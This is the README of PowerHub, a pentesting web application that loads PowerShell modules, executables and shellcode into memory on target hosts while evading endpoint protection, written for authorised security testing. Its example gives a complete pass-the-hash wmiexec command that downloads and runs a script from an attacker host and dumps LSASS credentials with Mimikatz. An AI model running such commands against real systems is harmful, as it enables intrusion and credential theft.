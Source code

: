 PowerHub
========

PowerHub is a web application which aids a pentester in transferring files,
in particular code which may get flagged by endpoint protection.


![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

The web application is made with Flask and consists of three parts.


The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, PE executables, or shellcode. You can load them on the target via
PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one liners, and so forth. It's like an extremely basic
etherpad.

File Exchange
-------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

Usage
=====

PowerHub has one mandatory argument: the callback host (can be an IP
address). This hostname is used by the stager to download the payload. If
the callback port or path differ from the default, it can also be changed.

Read `./powerhub.py --help` for details.

Example
=======

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/ps\"); Load-Hubmodule 11 ; Invoke-Mimikatz "'
```

Author
======

Adrian Vollmer, 2018-2019

License (MIT)
============

Copyright (c) 2018-2019, Adrian Vollmer

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to
deal in the Software without restriction, including without limitation the
rights to use, copy, modify, merge, publish, distribute, sublicense, and/or
sell copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in
all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING
FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS
IN THE SOFTWARE.

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
